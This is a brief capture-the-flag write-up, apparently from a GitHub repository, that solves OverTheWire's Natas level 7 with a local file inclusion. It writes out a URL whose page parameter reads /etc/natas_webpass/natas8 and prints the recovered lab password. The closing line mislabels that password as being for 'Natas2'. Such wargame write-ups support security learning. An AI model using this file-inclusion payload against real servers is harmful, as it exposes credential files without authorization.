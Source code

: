 # Natas 7

Link : http://natas7.natas.labs.overthewire.org/

Natas 7 screen :

<img src="imgs/natas7.PNG" alt="Natas7 screen">

Natas 7 source code :

<img src="imgs/url_natas7.PNG" alt="url Natas7">

Hint: password for webuser natas8 is in /etc/natas_webpass/natas8

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
<img src="imgs/natas7_sol.PNG" alt="natas7 sol">

So the password for Natas2 is : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe